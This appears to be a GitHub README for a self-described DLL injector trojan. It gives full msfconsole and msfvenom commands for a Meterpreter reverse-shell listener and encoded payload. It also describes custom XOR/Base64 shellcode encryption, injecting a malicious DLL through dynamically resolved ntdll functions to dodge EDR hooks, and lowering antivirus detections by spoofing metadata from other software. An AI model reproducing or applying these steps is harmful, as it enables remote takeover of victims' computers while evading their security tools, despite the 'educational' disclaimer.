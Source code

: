# Native API Dll injector Trojan

Dll injector in a remote process using dynamically resolved Native Api functions and encrypted shellcode, undetected by Windows Defender.
This code is for educational purposes only, do not use it for any malicious or unauthorized activity.


# 💻 Code
Similarly to [this malware](https://github.com/Hue-Jhan/Ntdll-Process-inj-Trojan) i made, this one calls dynamically resolved functions from ntdll.dll, reducing static IAT footprint, it basically retrieves addresses of native api functions at runtime and uses them to inject a malicious dynamic link library in a target process, the library will upload shellcode into that process.

### 1) Listener and encrypted payload

- First i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its detected way more than the raw shellcode for some reason:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we load it into the ```encrypter.c```  file, where the binary data is converted into Base64, use a custom base64_chars set instead of the standard alphabet to obfuscate more, secondly XOR encryption is applied (single-byte key), and finally we convert it into a hexadecimal string. You can find the encrypting code [here](https://github.com/Hue-Jhan/Simple-shellcode-crypter) or you can use your own encryption, but remember not to use rsa or aes or similar encoding algorithms as they are "too perfect" and raise the entropy levels too much.

### 2.1) DLL:

We get a handle to ntdll and we dynamically resolve its functions both in the DLL and in the injector, unlike ```kernel32.dll``` APIs like VirtualAllocEx, ```ntdll``` functions are sometimes less likely to be hooked by EDRs at user level.

- In order to use Ntdll we create custom typedef structs for each function, and we define all the internal structures and objects that they need, sometimes structures may be nested and require even more internal objects;
- Then we use ```GetNtFunctionAddress``` function to dynamically retrieve addresses of NT functions from ntdll using ```GetProcAddress```;
- When the library is attached to the process, it decodes the obfuscated shellcode and using the native api functions it uploads it into memory;
- Then it creates a thread into the same process its being injected into and the previously uploaded shellcode will be executed.

### 2.2) Injector:

The injector loads the dynamic library onto disk, looks for a specific process and injects the library into it:

- First of all we put the malicious dll in the same folder as the injector, we create a resource file and its header and we set the dll as a resource of the injector;
- Secondly on the injector we locate the resource file, calculate its size, upload it to memory, and lock it for access so it can be used without being moved;
- Thirdly we extract the dll from the executable and write it to disk;
- We find a process by PID, allocate memory the size of the dll path inside of it and write the path into the process;
- Then we get the handle to kernel32.dll and ntdll.dll and dynamically resolve the address of LoadLibraryA;
- Finally we create a thread that executes the function that loads the malicious dll;
- The Dll decodes the data and uploads it to memory, creating the shell;

Extracting the dll and uploading to disk is risky, in the future i will upload it directly to memory.

# 🛡 AV Detection

The raw Dll gets like 5 detections,  <img align="right" src="media/nt-dll-crypt-reshacked.png" width="350" /> if i upload the metadata and resources of another library such as ntdll itself, the detections drop to 1.

The raw exe file is currently undetected by windows defender but gets blocked by Bitdefender (even the free trial, yes bitdefender is the best av in my opinion, only behind crowdstrike). 

<img align="right" src="media/nt-dll-inj.png" width="350" />

On virus total it gets 11 detections and as usual it doesn't show bitdefender flagging it.

If i obfuscate the file even more with Resource Hacker by inserting the metadata of another well known software like shotcut, the detections drop to 8/9 on virus total. 

You can obfuscate it even more using tools like soggoth, or by turning it into an msi or iso file. <img align="right" src="media/nt-dll-inj-reshacked-shotcut.png" width="400" />
